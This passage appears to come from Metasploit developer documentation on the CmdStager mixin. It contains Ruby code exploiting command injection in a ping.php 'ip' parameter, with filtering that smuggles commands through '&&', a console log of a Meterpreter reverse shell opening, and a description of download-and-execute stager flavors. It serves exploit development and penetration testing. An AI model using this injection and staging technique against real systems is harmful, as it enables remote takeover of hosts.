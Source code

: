 We do that in `execute_command` using [[HttpClient|./How-to-Send-an-HTTP-Request-Using-HttpClient.md]]. Notice there is actually some bad character filtering involved to get the exploit working correctly, which is expected:

```ruby
def filter_bad_chars(cmd)
  cmd.gsub!(/chmod \+x/, 'chmod 777')
  cmd.gsub!(/;/, ' %26%26 ')
  cmd.gsub!(/ /, '+')
end

def execute_command(cmd, _opts = {})
  send_request_cgi(
    {
      'method' => 'GET',
      'uri' => '/ping.php',
      'encode_params' => false,
      'vars_get' => {
        'ip' => "127.0.0.1+%26%26+#{filter_bad_chars(cmd)}"
      }
    }
  )
end

def exploit
  print_status('Exploiting...')
  execute_cmdstager
end
```

And let's run that, we should have a shell:


```msf
msf exploit(cmdstager_demo) > run

[*] Started reverse TCP handler on 10.6.0.92:4444
[*] Exploiting...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 10.6.0.92
[*] Meterpreter session 1 opened (10.6.0.92:4444 -> 10.6.0.92:51522) at 2016-06-10 11:51:03 -0500
```

# Flavors

Now that we know how to use the `Msf::Exploit::CmdStager` mixin, let's take a look at the command
stagers you can use.  As mentioned above there are 2 general approaches to staging an executable on disk: by invoking a command that will download the executable file to disk like wget, curl, or fetch, or by breaking the executable file into pieces and including them commands themselves to write it to disk like echo, printf, or vbs. This delineation can be important, as trying to write a stageless binary payload to disk using a stager that has to include the chunked payload in it will require the execution of dozens of commands, often each one having the signature of the exploit.  It is also useful to know the `printf` flavor is the only flavor that embeds the payload into the commands but does ***not*** use `echo`.

